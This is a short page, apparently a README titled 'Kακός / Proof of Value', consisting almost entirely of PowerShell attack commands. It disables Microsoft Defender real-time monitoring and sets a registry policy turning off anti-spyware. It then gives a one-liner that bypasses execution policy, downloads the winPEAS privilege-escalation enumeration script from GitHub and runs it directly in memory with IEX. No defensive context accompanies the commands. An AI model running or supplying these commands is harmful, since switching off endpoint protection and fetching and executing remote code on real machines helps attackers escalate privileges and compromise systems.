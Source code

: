 # Kακός
Proof of Value

Disable Microsoft Defender

Set-MpPreference -DisableRealtimeMonitoring $true
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force




1. Downloading the winPEAS.ps1 script from its GitHub repository.
2. Executing that script immediately. Run the following script.
   
powershell -Exec ByPass -NoProfile -c "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1') | IEX"
